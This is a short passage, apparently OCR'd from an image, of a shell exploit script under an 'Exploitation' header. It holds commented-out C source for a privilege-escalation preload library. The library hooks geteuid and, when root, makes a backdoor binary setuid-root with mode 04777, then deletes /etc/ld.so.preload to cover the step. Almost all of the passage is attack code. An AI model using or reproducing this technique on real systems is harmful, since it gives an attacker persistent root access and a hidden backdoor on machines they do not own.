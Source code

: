     # [ Exploitation ]

    trap ctrl_c INT
    # Compile privesc preload library
    # echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
    # cat <<_solibeof_>$PRIVESCSRC
    # #define _GNU_SOURCE
    # #include <stdio.h>
    # #include <sys/stat.h>
    # #include <unistd.h>
    # #include <dlfcn.h>
    #        #include <sys/types.h>
    #        #include <sys/stat.h>
    #        #include <fcntl.h>

    # uid_t geteuid(void) {
    #     static uid_t  (*old_geteuid)();
    #     old_geteuid = dlsym(RTLD_NEXT, "geteuid");
    #     if ( old_geteuid() == 0 ) {
    #         chown("$BACKDOORPATH", 0, 0);
    #         chmod("$BACKDOORPATH", 04777);
    #         unlink("/etc/ld.so.preload");
    #     }
    #     return old_geteuid();
    # }
    # _solibeof_